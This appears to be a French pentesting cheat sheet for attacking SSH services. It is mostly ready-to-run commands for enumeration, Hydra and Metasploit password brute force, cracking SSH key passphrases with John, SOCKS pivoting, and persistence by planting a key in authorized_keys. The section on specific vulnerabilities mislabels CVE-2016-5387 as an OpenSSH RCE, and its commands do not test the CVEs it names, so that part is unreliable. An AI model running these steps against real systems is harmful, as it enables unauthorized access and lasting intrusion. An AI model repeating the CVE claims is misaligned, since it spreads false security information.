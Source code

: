 # SSH (22/TCP)

Secure Shell (SSH) est un protocole cryptographique pour l'administration sécurisée à distance.

## 🔍 Énumération

### Scan de base
```bash
# Scan SSH avec Nmap
sudo nmap -sV -p 22 $IP

# Vérification des algorithmes de chiffrement supportés
nmap --script ssh2-enum-algos -p 22 $IP

# Énumération des clés SSH
nmap --script ssh-hostkey -p 22 $IP
```

### Vérification de la version
```bash
# Récupération de la bannière SSH
nc -vn $IP 22

# Version scan avec netexec
nxc ssh $IP --gen-relay-list ssh_targets.txt
```

## 🔨 Exploitation

### Attaque par bruteforce
```bash
# Avec Hydra
hydra -l [user] -P /usr/share/wordlists/rockyou.txt $IP ssh

# Avec Metasploit
use auxiliary/scanner/ssh/ssh_login
set RHOSTS $IP
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Exploitation des clés privées
```bash
# Si vous trouvez une clé privée SSH
chmod 600 id_rsa
ssh -i id_rsa [user]@$IP

# Si la clé est protégée par passphrase
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Vulnérabilités spécifiques
```bash
# Test pour CVE-2016-5387 (OpenSSH RCE)
nmap --script ssh-auth-methods --script-args="ssh.user=root" -p 22 $IP

# Test pour CVE-2016-0777 (OpenSSH Client Bug)
ssh -vvv -oHostKeyAlgorithms=+ssh-dss $IP
```

## 🔐 Post-exploitation

### Pivot via tunnel SSH
```bash
# Créer un tunnel SOCKS proxy
ssh -D 9050 [user]@$IP

# Configurer proxychains
echo "socks5 127.0.0.1 9050" >> /etc/proxychains.conf
proxychains nmap -sT -P0 [INTERNAL_IP]
```

### Transfert de port
```bash
# Local port forwarding (accéder à un service distant localement)
ssh -L 8080:localhost:80 [user]@$IP

# Remote port forwarding (exposer un service local sur la machine distante)
ssh -R 8080:localhost:80 [user]@$IP
```

### Configuration de persistance
```bash
# Ajout de clé SSH dans authorized_keys
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3Nz..." >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

## ⚠️ Erreurs courantes & astuces
- SSH peut être configuré pour rejeter les connexions après plusieurs échecs
- Certaines configurations n'autorisent que l'authentification par clé (no password)
- Vérifiez `/etc/ssh/sshd_config` pour les restrictions
- Utilisez `-vvv` pour déboguer les problèmes de connexion